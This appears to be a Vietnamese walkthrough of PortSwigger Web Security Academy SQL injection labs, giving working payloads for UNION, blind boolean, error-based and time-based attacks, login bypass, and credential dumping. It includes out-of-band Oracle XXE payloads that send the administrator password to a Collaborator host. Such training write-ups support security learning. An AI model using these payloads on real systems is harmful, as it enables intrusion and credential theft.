








# SQL Injection
## Khái niệm
Để truy vấn dữ liệu nằm trong cơ sở dữ liệu, chúng ta đều hay sử dụng SQL để tương tác với dữ liệu nằm trong hệ thống quản lý. Tuy nhiên, nếu các câu truy vấn không được xử lý đúng cách, kẻ tấn công có thể lợi dụng để tìm ra những thông tin mà đáng lẽ không nên được để lộ.
## Lab
### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Lab này cho ta biết Query dùng để chọn Category là: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`. Vì không có filter cho phần nhập category, ta sẽ chèn payload vào phần `category = 'Gifts'` thành `category=Gifts%27+OR+1=1--`. Ở đây, ta sử dụng `'OR 1=1` để đóng phần chọn category, sau đó là vì `1=1` luôn đúng nên hệ thống sẽ chọn tất cả từ bảng products. 2 dấu `--` trong SQL mang chức năng đánh dấu comment, ở đây nó được sử dụng để vô hiệu hoá khả năng của `' AND released = 1` để có thể truy vấn các sản phẩm chưa được release.

Cụ thể, câu truy vấn để giải quyết bài lab này là: `https://0a5d000d0448328780050de20023001b.web-security-academy.net/filter?category=Accessories%27+OR+1=1--`

### Lab: SQL injection vulnerability allowing login bypass
Lỗ hỏng ở lab này được đặt vào phần đăng nhập khi nó sử dụng query: `SELECT * FROM users WHERE username = '$username' AND password = '$password'`. Vì không có filter, ta sẽ vô hiệu hoá query `' AND password = '$password'` để có thể đăng nhập username `administrator` mà không cần mật khẩu.

### Lab: SQL injection UNION attack, determining the number of columns returned by the query
Lỗ hỏng ở lab này nằm ở query truy vấn Category, khi mà kết quả của việc query có thể được xem trực tiếp qua phản hồi. Lab này chỉ cần yêu cầu ta tìm xem có bao nhiêu cột mà query này trả về bằng việc inject UNION. Ta sẽ sử dụng `SELECT NULL,...` vì NULL có thể được chuyển đổi thành nhiều kiểu dữ liệu, mà ta lại không biết chính xác kiểu dữ liệu của các cột.

Cụ thể, payload để giải quyết lab này là: `category=Accessories%27+UNION+SELECT+NULL,NULL,NULL--`

### Lab: SQL injection UNION attack, finding a column containing text
Lab này yêu cầu ta phải hiển thị String `o8kKQU` ở màn hình hiển thị sản phẩm. Đầu tiên, ta cần phải biết kết quả của việc query sẽ trả về bao nhiêu cột, thì chưa cần phải mò, ta có thể thấy kết quả chỉ hiển thị 3 cột, vậy nên payload sẽ là `%27+UNION+SELECT+NULL,NULL,NULL--`

Sau đó ta sẽ thử xem trong 3 cột, cột nào mới là cột chịu trách nhiệm cho việc hiển thị tên sản phẩm. Kết quả ta có được là: `%27+UNION+SELECT+NULL,%27o8kKQU%27,NULL--`

### Lab: SQL injection UNION attack, retrieving data from other tables
Để tăng độ phức tạp, lab này yêu cầu ta phải tìm ra username và password nằm trong bảng users bằng việc sử dụng UNION. Thì trước tiên, ta cần phải biết có bao nhiêu cột đang hiển thị ở response:

Sau khi biết được số lượng cột là 2, ta sẽ cho hiển thị username và password của bảng users bằng payload: `%27UNION+SELECT+username,password+FROM+users--`

Có được tài khoản admin, ta đăng nhập để hoàn thành lab:

### Lab: SQL injection UNION attack, retrieving multiple values in a single column
Lab này yêu cầu ta phải hiển thị username và password chỉ trong một cột duy nhất. Việc đầu tiên ta cần làm là biết xem có bao nhiều cột đang hiển thị ở đây

Mặc dù có tới 2 cột hiển thị, nhưng ta không thể sử dụng payload `%27UNION+SELECT+username,password+FROM+users--`

Vì thế, ta sẽ phải đoán xem cột nào có thể hiển thị được username và password.
Cuối cùng, ta có được payload: `%27UNION+SELECT+NULL,username+||+%27~%27+||+password+FROM+users--`

Còn lại là việc đăng nhập để hoàn thành lab.
### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
Lab này yêu cầu ta phải hiện thị được loại database và version server trên MySQL và Microsoft. Thì trước hết, ta phải biết có bao nhiêu cột đang hiển thị.

Mặc dù màn hình hiển thị 2 cột, tuy nhiên payload này lại không trả về kết quả mong muốn, có thể lỗi nằm ở phần đánh dấu comment. Mở cheatsheet lên ta thấy rằng ở MySQL sử dụng `#` hoặc `-- `để đánh dấu comment. Vậy nên ta có 2 payload sau để hiện thị kết quả ta cần:
- `%27UNION+SELECT+NULL,NULL--%20`

- `%27UNION+SELECT+NULL,NULL%23`

### Lab: SQL injection attack, listing the database contents on non-Oracle databases
Lab này yêu cầu ta phải đăng nhập được tài khoản `administrator`, nhưng ta lại không biết tài khoản và mật khẩu đang nằm ở bảng nào. Thì việc đầu tiên ta cần làm là kiểm tra có bao nhiêu cột đang hiển thị ở phần response.

Sau đó, ta sẽ hiện thị tên của tất cả các table đang có trong database quả bảng `information_schema.tables` bằng payload: `%27UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`

Trong số những bảng đang hiển thị, chỉ có duy nhất bảng `users_ceekno` là trông khả nghi nhất, nên ta sẽ truy cập vào đó bằng payload: `%27UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name+=+%27users_ceekno%27--`

Biết được 2 cột chứa username và password, ta dùng payload `%27UNION+SELECT+password_carpqm,username_ihcrve+FROM+users_ceekno--` để tìm tài khoản administrator

### Lab: Blind SQL injection with conditional responses
Lỗ hỏng ở lab này được đặt tại cookie với với query: `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '.........'`. Kết quả của query này chỉ có 2 trường hợp: Nếu TrackingID là hợp lệ, response sẽ có dòng chữ `Welcome back` ở góc

Nếu không, response sẽ không còn dòng chữ `Welcome back`

Dựa vào đó, ta có thể đoán được mật khẩu của `administrator`. Đầu tiên ta sẽ kiểm chứng 2 payload: `'AND+1=2--` và `'AND+1=1--`. Nếu payload đầu tiên không chứa dòng chữ `Welcome back` còn payload thứ 2 có `Welcome back`, vậy thì ta có thể chèn payload để tìm mật khẩu.

Vậy là việc chèn payload là khả thi, việc tiếp theo cần làm là đoán độ dài của mật khẩu bằng payload: `'AND+(SELECT+LENGTH(password)+FROM+users+WHERE+username+=+'administrator')+=$length+--` bằng Burp Intruder

Sau khi biết được độ dài, ta sẽ sử dụng chế độ "Cluster bomb attack" với payload: `'AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username+=+'administrator'),$position,1)+=+'$character` với `$position` là dạng Numbers từ 1 đến 20, $character là dạng Brute forcer với `length min = 1`, `length max = 1`.

Ghép các kí tự vào ta có được mật khẩu đăng nhập vào username `administrator`
### Lab: Blind SQL injection with conditional errors
Lab này yêu cầu ta cần sử dụng phản hồi lỗi để đoán được mật khẩu của `administrator`. Ta biết trước lỗi nằm ở phần xử lý cookie.

Đầu tiên kiểm tra lỗi có nằm ở syntax hay không bằng việc thêm dấu `'` ở cuối TrackingID.

Lỗi có xảy ra, có nghĩa là có lỗ hỏng để ta có thể chèn payload vào. Nếu ta thêm 1 dấu `'` thì chắc chắn sẽ không còn lỗi xảy ra:

Đầu tiên, ta cần biết ngôn ngữ mà database đang sử dụng bằng payload `'+||+(SELECT+NULL+FROM+dual)+||+'`. Nếu đây là Oracle, kết quả trả về sẽ không báo lỗi:

Sau khi biết đây là Oracle, ta sử dụng payload `'+||+(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)+||+'` để xác thực thêm 1 lần nữa, nếu không báo lỗi thì ta sẽ có payload inject vào database:

Sau khi xác thực được payload, ta sẽ tìm độ dài của password bằng payload: `'+||+(SELECT+CASE+WHEN+((SELECT+LENGTH(password)+FROM+users+WHERE+username+=+'administrator')+=$length$)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)+||+'`

Vì length=20 có status code là 500, nên ta có được độ dài mật khẩu là 20 kí tự.
Cuối cùng, ta sẽ bruteforce 20 kí tự bằng payload: `'+||+(SELECT+CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),,1)+=+'')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)+||+'`.

Việc còn lại là nhập mật khẩu để hoàn thành lab.
### Lab: Visible error-based SQL injection
Vẫn là inject payload vào cookie, nhưng tuy nhiên lần này lỗi sẽ được hiển thị trên response chứ không còn ẩn đi. 

Khi ta thêm 1 dấu `'`, trang response thay vì chỉ hiện lỗi như lab trước, nó hiển thị cả payload SQL lẫn vị trị sử dụng payload:

Bằng cách này, ta có thể biết được kiểu dữ liệu của cột trong bảng mà ta cần tìm, từ đó tìm được dữ liệu ta cần.

Bước đầu tiên, ta cần biết loại ngôn ngữ mà database đang sử dụng bằng payload:`'||(SELECT+NULL+FROM+dual)||'`

Vậy là đây không phải OracleSQL. Trong các cách để tìm loại database, mình thấy sử dụng lệnh tìm phiên bản database là dễ phân biệt nhất. Sử dụng `'||(SELECT+@@version)||'`, `'||(SELECT+version())||'` để thử các loại database còn lại xem sao:

Chỉ có `'||(SELECT+version())||'` hoạt động, tức là ngôn ngữ SQL đang sử dụng ở đây là PostgreSQL. Sử dụng payload `'--` để kiểm tra syntax, ta được:

Nhận thấy thông báo bình thường, ta sử dụng `'+AND+CAST((SELECT+1)+AS+int)--` để kiểm tra thông báo lỗi:

Thông báo lỗi yêu cầu payload sau AND phải dưới dạng boolean, vậy sửa payload thành `+AND+1=CAST((SELECT+1)+AS+int)--`:

Response trả về kết quả bình thường, bây giờ ta sẽ sửa payload thành:`+AND+1=CAST((SELECT+username+FROM+users)+AS+int)--` để kiểm tra kết quả trả về của hệ thống sau khi query:

Có vẻ hệ thống yêu cầu duy nhất chỉ 1 dòng dữ liệu được trả về, nên ta sẽ sửa payload thành: `TrackingId='+AND+1=CAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--` để không yêu cầu dữ liệu từ TrackingId, đồng thời là chỉ yêu cầu duy nhất 1 dòng dữ liệu ở users:

Làm tương tự với password để có được mật khẩu cho `administrator`:

### Lab: Blind SQL injection with time delays and information retrieval'
Lab này yêu cầu ta sử dụng delay phản hồi để xác thực dữ liệu ta cần biết. Giả dụ nếu 1=1 ta đặt web phản hồi sau 10s, sau khi gửi request ta thấy mất 10s mất nhận được response thì đó là vuln cho time-based.

Đầu tiên, ta cần tìm loại ngôn ngữ mà database đang xài bằng payload: `%3B` + lệnh sleep của các loại database. Sau một hồi thử ta biết được `%3BSELECT+pg_sleep(10)` hoạt động, vậy tức là hệ thống này đang sử dụng PostgreSQL.

Sau khi biết kiểu database, ta dùng câu điều kiện: `'%3BSELECT+CASE+WHEN+((SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=$length$)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--` để tìm độ dài password.

Ta nhận thấy chỉ có length=20 có số lượng phản hồi nhiều nhất, nên đó là đáp án ta đang cần.
Thay payload trên thành: `'%3BSELECT+CASE+WHEN+(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),$index$,1)='$letter$')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--` để tìm mật khẩu.

Trích xuất các kí tự có respose nhiều hơn 5000, ta có được mật khẩu cho `administrator`
### Lab: Blind SQL injection with out-of-band interaction
Lab này hướng dẫn cách sử dụng Burp Collaborator để tạo domain nhằm inject vào hệ thống. Sử dụng payload có sẵn nằm trong cheatsheet của PortSwigger, cụ thể ở đây là payload dùng cho Oracle:
`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
Kết hợp với domain đường tạo bởi Burp Collaborator, ta có thể hoàn thành lab này bằng payload: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//wff0rwdg7db9tm7jd2juabjs4jaaybm0.oastify.com/">+%25remote%3B]>'),'/l')+FROM+dual--`

### Lab: Blind SQL injection with out-of-band data exfiltration
Sử dụng cùng kiểu payload như trên, nhưng ta sẽ chèn thêm query ở trước domain để truy vấn mật khẩu của administrator: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.p7xtjp59z632lfzc5vbn24blwc23q8ex.oastify.com/">+%25remote%3B]>'),'/l')+FROM+dual--`

### Lab: SQL injection with filter bypass via XML encoding
Lab này sử dụng cách mà XML encoding để bypass filter SQL Injection. Để cho thuận tiện, ta sẽ sử dụng Hackvertor để inject vào XML. 

Sử dụng `@hex_entities`, sau đó chèn payload: `1 UNION SELECT username || '~' || password FROM users` để tìm tài khoản và mật khẩu. Về bản chất, `@hex_entities` sẽ chuyển đổi tất cả các kí tự sang dạng unicode, giúp bypass filter.

